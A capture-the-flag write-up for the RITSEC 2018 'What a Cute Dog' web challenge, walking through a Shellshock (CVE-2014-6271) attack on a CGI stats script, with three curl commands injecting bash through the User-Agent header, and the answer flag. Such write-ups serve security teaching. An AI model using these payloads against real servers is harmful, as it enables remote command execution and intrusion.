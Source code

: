 ## What a Cute Dog - Web 350:  

**Description:** This dog is shockingly cute!  
**Challenge:** fun.ritsec.club:8008  
**Difficulty:** Easy  
**Solved by:** Milan  

**Solution:**  
Upon opening the given URL, we see a shockingly cute dog ! And some stats: **Mon Nov 19 11:06:51 UTC 2018 11:06:51 up 2 days, 18:54, 0 users, load average: 0.00, 0.00, 0.03**.  
Inspecting the source we see an interesting link: **http://fun.ritsec.club:8008/cgi-bin/stats**. Googling this, we found an exploit for stats. And guess what, it is a **shellshock exploit (CVE 2014-6271)**.  

We are going to use this command for finding the flag: **curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'uname -a;'" http://fun.ritsec.club:8008/cgi-bin/stats**  

After some time for searching the flag, I remembered that flag it is always named like **flag.txt**. So I ran this command in terminal to get the exact location of a flag:
**curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats**

**flag.txt** was found in **/opt/** folder. The final step we needed to take was to read the flag.  
**curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt;'" http://fun.ritsec.club:8008/cgi-bin/stats**

**Flag:**  
RITSEC{sh3ll_sh0cked_w0wz3rs}
